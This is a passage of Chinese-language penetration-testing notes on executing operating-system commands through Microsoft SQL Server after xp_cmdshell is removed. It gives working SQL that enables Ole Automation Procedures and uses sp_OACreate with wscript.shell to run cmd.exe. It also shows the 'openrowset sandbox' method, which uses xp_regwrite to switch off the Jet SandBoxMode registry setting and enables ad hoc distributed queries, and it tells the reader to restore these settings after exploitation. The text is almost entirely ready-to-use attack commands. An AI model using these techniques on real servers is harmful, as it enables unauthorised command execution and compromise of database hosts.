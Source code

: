 当xp_cmdshell 删除以后，还可以使用SP_OACreate

**首先要打开组件：**

```sql
--开启EXEC
sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

--关闭EXEC
sp_configure 'show advanced options', 0;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE;
```

**之后使用以下语句执行命令：**

```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
```

**这种方式是无回显的，打开1.txt查看命令执行结果**

```bash
type c:\\1.txt
```

**三、openrowset沙盒** 

> **(2003系统可用、2012-r2实验失败)**

**首先检查cmd_shell是否开启**

```sql
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
--结果为 1 就是开启
```

**第二步 开启默认关闭的xp_regwrite存储过程**

```sql
--开启
EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE' ,'SOFTWARE\Microsoft\Jet\4.0\Engines' ,'SandBoxMode' ,'REG_DWORD' ,0;

EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXEC sp_configure 'Ad Hoc Distributed Queries', 1
GO
RECONFIGURE
GO

--利用完后恢复
EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
EXEC sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
EXEC sp_configure 'show advanced options',0;reconfigure;
```
